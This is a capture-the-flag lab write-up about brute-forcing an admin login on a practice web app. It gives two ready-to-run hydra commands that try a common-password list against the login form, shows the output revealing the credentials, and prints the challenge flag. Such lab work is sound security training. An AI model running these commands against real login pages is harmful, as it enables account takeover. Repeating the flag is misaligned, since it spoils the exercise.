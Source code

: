 # Bruteforce Admin Credentials

## Flag

d19b4823e0d5600ceed56d5e896ef328d7a2b9e7ac7e80f4fcdb9b10bcb3e7ff

## Description

In the "Numeric SQL Injection" episode, we noticed an admin table with "Member_BruteForce" as schema name.

## URL

http://192.168.x.y/admin/

## Steps To Reproduce

Two "basic" payload with common admin usernames :
hydra -t 64 -l admin -P 1000-most-common-passwords.txt 192.168.x.y http-post-form '/admin/:username=^USER^&password=^PASS^&Login=Login:Wrong'
hydra -t 64 -l root -P 1000-most-common-passwords.txt 192.168.x.y http-post-form '/admin/:username=^USER^&password=^PASS^&Login=Login:Wrong'

With the second payload :
[80][http-post-form] host: 192.168.x.y login: root password: dragon
hydra, dragon, haha... ==>[]
So we login with root/dragon as credentials.

## Why is it dangerous ?

Any attacker can impersonate an admin user.

## Possible fixes

- Choose a secure password.

## Resources

- [1000-most-common-passwords.txt](https://github.com/jeremie-gauthier/Darkly/blob/master/1000-most-common-passwords.txt)
- https://redteamtutorials.com/2018/10/25/hydra-brute-force-https/
